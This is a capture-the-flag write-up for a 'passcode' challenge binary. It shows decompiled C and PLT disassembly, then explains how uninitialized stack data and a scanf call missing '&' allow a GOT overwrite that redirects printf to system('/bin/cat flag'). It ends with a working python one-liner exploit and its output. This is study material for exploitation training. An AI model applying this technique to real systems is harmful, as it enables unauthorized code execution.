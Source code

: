 ```
{
  char v1; // [sp+18h] [bp-70h]@1
  int v2; // [sp+7Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  printf("enter you name : ");
  __isoc99_scanf("%100s", &v1);
  printf("Welcome %s!\n", &v1);
  return *MK_FP(__GS__, 20) ^ v2;
}
```

login:
```
{
  int v1; // [sp+8h] [bp-10h]@0
  int v2; // [sp+Ch] [bp-Ch]@0

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}
```
In `welcome`,`v1(name)` is at `bp-70h`, We can control 100 chars. In `login`, `v1(password1)` is at `bp-10h`, `v2(password2)` is at `bp-Ch`. Since there's no push or pop between `welcome` and `login`, `0x70-0x10=96` means we can control 4 chars. So we can control the initial value of `passcode1`.
We can overwrite `printf()` `(or fflush(), exit())`'s `GOT` and let it jump to `system("/bin/cat flag")`. It means that we set `password1` equal `printf@GOT` by entering `name`, and then overwrite it to be `system@GOT(0x080485e3=134514147)`.
```
08048420 <printf@plt>:
 8048420:	ff 25 00 a0 04 08    	jmp    *0x804a000
08048430 <fflush@plt>:
 8048430:	ff 25 04 a0 04 08    	jmp    *0x804a004
08048480 <exit@plt>:
 8048480:	ff 25 18 a0 04 08    	jmp    *0x804a018

80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
 80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```
So, we made this shellcode.
```
passcode@ubuntu:~$ python -c 'print "A"*96+"\x00\xa0\x04\x08"+"134514147\n"' | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
